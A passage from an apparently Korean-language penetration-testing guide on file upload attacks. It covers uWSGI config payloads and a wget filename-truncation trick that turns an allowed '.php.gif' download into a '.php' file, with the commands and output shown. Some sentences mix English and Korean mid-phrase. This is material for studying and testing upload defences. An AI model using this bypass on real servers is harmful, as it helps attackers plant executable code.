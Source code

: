 The execution of the payload occurs during the parsing of the configuration file. For the configuration to be activated and parsed, the uWSGI process must either be restarted (potentially after a crash or due to a Denial of Service attack) or the file must be set to auto-reload. The auto-reload feature, if enabled, reloads the file at specified intervals upon detecting changes.

uWSGI의 구성 파일 파싱의 느슨한 특성을 이해하는 것이 중요합니다. 특히, 논의된 페이로드는 이진 파일(예: 이미지 또는 PDF)에 삽입될 수 있어 잠재적인 악용 범위를 더욱 넓힙니다.

## **wget 파일 업로드/SSRF 트릭**

일부 경우에 서버가 **`wget`**을 사용하여 **파일을 다운로드**하고 **URL**을 **지정**할 수 있는 경우가 있습니다. 이러한 경우, 코드는 다운로드된 파일의 확장자가 화이트리스트에 있는지 확인하여 허용된 파일만 다운로드되도록 할 수 있습니다. 그러나 **이 검사는 우회할 수 있습니다.**\
**리눅스**에서 **파일 이름**의 **최대** 길이는 **255**자이지만, **wget**은 파일 이름을 **236**자로 잘라냅니다. **"A"\*232+".php"+".gif"**라는 파일을 **다운로드**할 수 있으며, 이 파일 이름은 **검사**를 **우회**할 것입니다(이 예에서 **".gif"**는 **유효한** 확장자입니다) 그러나 `wget`은 파일 이름을 **"A"\*232+".php"**로 **변경**합니다.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
Note that **다른 옵션** you may be thinking of to bypass this check is to make the **HTTP 서버가 다른 파일로 리디렉션**되도록 하여, 초기 URL이 체크를 우회하게 하고 wget이 새로운 이름으로 리디렉션된 파일을 다운로드하게 됩니다. This **작동하지 않습니다** **unless** wget is being used with the **parameter** `--trust-server-names` because **wget은 원래 URL에 표시된 파일 이름으로 리디렉션된 페이지를 다운로드합니다**.

## Tools

